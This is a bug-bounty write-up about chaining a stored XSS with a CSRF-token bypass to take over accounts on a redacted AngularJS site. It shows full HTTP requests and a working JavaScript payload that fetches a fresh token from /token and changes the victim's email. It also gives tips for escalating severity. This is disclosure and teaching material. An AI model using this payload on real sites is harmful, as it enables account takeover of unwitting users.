 ```yaml
---
layout: post
title: XSS to Account Takeover - Bypassing CSRF Header Protection and HTTPOnly Cookie
excerpt: "When doing a Bug Hunting and finding a Stored XSS bug, usually the imagination will get a big enough bounty has been spinning around on the head. But sometimes the imagination fades when we try to insert document.cookie into the XSS payload, and what appears is.."
tags: [bug hunting, hacking, csrf, xss, account takeover]
categories: [bug hunting]
comments: true
image:
  feature: 5d02f144bca472117661e342a29bf504-f.png
---
```


بسم الله الرحمن الرحيم


When doing a Bug Hunting and finding a Stored XSS bug, the imagination will usually get a big enough bounty that has been spinning around on the head. But sometimes the imagination fades when we try to insert `document.cookie` into the XSS payload and what appears is:

![Blank Cookie](/assets/5d02f144bca472117661e342a29bf504-1.png)

Popup alerts are expected to display cookies from the target website but instead display nothing because _the cookies on the website are set HTTPOnly so that they cannot be accessed by javascript_.

When you find something like this, usually, the next option is to make a request using **XHR** to `force` users to take sensitive actions without their knowledge. For example, changing passwords or changing email addresses.

And when will do that, requests are sent as follows:

```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: 3005c34f-4cea-4470-afe8-045f1c14a2af
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=3005c34f-4cea-4470-afe8-045f1c14a2af;

{"email":"pwn@1337.com"}
```

In the request header, there is a `csrf` token aiming to prevent **CSRF** attacks. So the exploitation process becomes more difficult because there is a **CSRF** header that changes every time a request is made.

When viewed closely, the request header and cookie have `csrf-tokens` with the same value. So I tried to change the two values into another value, but still the same.

Request:

```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: asu
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=asu;

{"email":"pwn@1337.com"}
```


Response:

```
{"changingEmailCompleted":true}
```


Boom! It turned out that the email was successfully changed using this method. This means we can manipulate the `csrf-token` in the header to anything as long as the value is the same as the `csrf-token` in the cookie.

Since we cannot access cookies, I have tried adding new cookies using the following script:

```html
<script>document.cookie="csrf-token=asu";</script>
```

When trying to make a request, the response is as follows:

![CSRF Detected](/assets/5d02f144bca472117661e342a29bf504-2.png)

Why does the `Possible CSRF attack detected` message appear?

When rechecking is done, the request turns out to be like this:

```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: asu
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: csrf-token=asu; JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=0b84028f-35de-4bd6-bf72-a0a776a7b3f2;

{"email":"pwn@1337.com"}
```


There appear two cookies named `csrf-token`. This seems to be the cause of the error earlier.


Since we don't do anything to the cookies, all we can use here is `csrf-token` in the request header. But of course, we must get a valid value.

This website is built using AngularJS, and there is no `csrf-token` value stored in the HTML code and the value of the `cookie` changes with every request.

Wait, `always changing every request?` This means that there are times when the server sends a new `cookie` to the browser. So I tried to find out when that moment happened.

Then a background request is found to the endpoint `/token` as follows:

Request:

```
POST /token HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: 0b84028f-35de-4bd6-bf72-a0a776a7b3f2
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=0b84028f-35de-4bd6-bf72-a0a776a7b3f2;
```

Response:

```
HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8
Connection: close
Date: Fri, 04 Oct 2019 15:08:38 GMT
Server: nginx
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Set-Cookie: csrf-token=725d97de-550d-4644-9579-d4b3e1209ded; path=/; secure; HttpOnly
X-XSS-Protection: 1; mode=block
Pragma: no-cache
csrf-token: 725d97de-550d-4644-9579-d4b3e1209ded
Content-Security-Policy: frame-ancestors 'self'
X-Content-Type-Options: nosniff
[...]
```

It can be seen that when making a request to endpoint `/token`, the server responds by giving a new `csrf-token` cookie. Then we can use this request to retrieve the `csrf-token`, using a script like the following:


```javascript
var xhr = new XMLHttpRequest();
var method = 'GET';
var url = 'https://redacted.com/token';
xhr.open(method,url,true);
xhr.send(null);

xhr.onreadystatechange = function()
{
 var token = xhr.getResponseHeader('csrf-token');
 alert(token);
}
```


And the **CSRF Token** was successfully obtained!


![CSRF Token](/assets/5d02f144bca472117661e342a29bf504-3.png)


Finally, combine it with the request to change the email earlier.

```javascript
var xhr = new XMLHttpRequest();
var method = 'GET';
var url = 'https://redacted.com/token';
xhr.open(method,url,true);
xhr.send(null);

xhr.onreadystatechange = function()
{
 var token = xhr.getResponseHeader('csrf-token'); // ngambil token dari response header

 xhr.open("POST","https://redacted.com/user/changeEmail", true);
 xhr.withCredentials="true";
 xhr.setRequestHeader("csrf-token", token);
 xhr.setRequestHeader("Content-type", "application/json; charset=UTF-8");
 xhr.send('{"email":"pwn@1337.com"}');
}
alert('Ups, You\'re pwned!');
```


And the email address was successfully changed.

![Pwn](/assets/5d02f144bca472117661e342a29bf504-4.png)


#### Conclusion

- When finding a Stored XSS but cannot get a cookie, don't report it immediately because it is likely that the severity will decrease.
- Try to do chaining with other bugs, CSRF for example to perform sensitive actions
- When finding CSRF Protection, try to delete it or change its value to null, sometimes something magical can work.
- Look for other endpoints that can be used to obtain a valid CSRF Token.
